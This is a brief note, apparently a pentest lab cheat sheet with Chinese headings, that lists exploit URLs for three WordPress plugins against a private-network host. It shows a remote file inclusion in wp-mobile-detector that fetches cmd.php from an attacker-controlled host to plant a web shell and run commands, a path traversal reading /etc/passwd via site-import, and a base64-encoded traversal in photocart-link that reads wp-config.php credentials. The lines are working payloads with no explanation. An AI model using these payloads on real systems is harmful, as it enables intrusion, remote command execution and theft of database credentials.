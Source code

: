 wp-mobile-detector  远程文件下载
http://192.168.49.144:8022/wp-content/plugins/wp-mobile-detector/resize.php?src=http://192.168.49.1:8080/cmd.php
http://192.168.49.144:8022/wp-content/plugins/wp-mobile-detector/cache/cmd.php?cmd=
site-import   任意文件读取
   http://192.168.49.144:8022/wp-content/plugins/site-import/admin/page.php?url=../../../../../../../etc/passwd
photocart-link 任意文件读取
view-source:http://192.168.49.144:8022/wp-content/plugins/photocart-link/decode.php?id=Li4vLi4vLi4vd3AtY29uZmlnLnBocA==

